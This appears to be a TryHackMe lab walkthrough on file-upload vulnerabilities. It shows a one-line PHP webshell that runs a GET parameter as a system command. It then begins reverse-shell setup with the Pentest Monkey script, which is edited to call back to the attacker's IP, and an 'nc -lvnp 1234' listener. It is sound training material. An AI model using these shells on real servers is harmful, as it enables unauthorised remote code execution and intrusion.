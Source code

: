 Looks like we've got two directories here -- `uploads` and `assets`. Of these, it seems likely that any files we upload will be placed in the "uploads" directory. We'll try uploading a legitimate image file first. Here I am choosing our cute dog photo from the previous task:

![[Images/aAyIrod.png]]

![[Images/mIbGRIk.png]]

Now, if we go to `http://demo.uploadvulns.thm/uploads` we should see that the spaniel picture has been uploaded!

![[Images/lVe2tjL.png]]

![[Images/N8vWlVO.png|700]]

Ok, we can upload images. Let's try a webshell now.

As it is, we know that this webserver is running with a PHP back-end, so we'll skip straight to creating and uploading the shell. In real life, we may need to do a little more enumeration; however, PHP is a good place to start regardless.

A simple webshell works by taking a parameter and executing it as a system command. In PHP, the syntax for this would be:

```
<?php
    echo system($_GET["cmd"]);
?>
```

This code takes a GET parameter and executes it as a system command. It then echoes the output out to the screen.

Let's try uploading it to the site, then using it to show our current user and the contents of the current directory:

![[Images/CU0Uyx5.png]]

Success!

We could now use this shell to read files from the system, or upgrade from here to a reverse shell. Now that we have RCE, the options are limitless. Note that when using webshells, it's usually easier to view the output by looking at the source code of the page. This drastically improves the formatting of the output.  

---

_Reverse Shells:_

The process for uploading a reverse shell is almost identical to that of uploading a webshell, so this section will be shorter. We'll be using the ubiquitous Pentest Monkey reverse shell, which comes by default on Kali Linux, but can also be downloaded [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). You will need to edit line 49 of the shell. It will currently say `$ip = '127.0.0.1';  // CHANGE THIS   ` -- as it instructs, change `127.0.0.1` to your TryHackMe tun0 IP address, which can be found on the [access page](https://tryhackme.com/access). You can ignore the following line, which also asks to be changed. With the shell edited, the next thing we need to do is start a Netcat listener to receive the connection. `nc -lvnp 1234`:
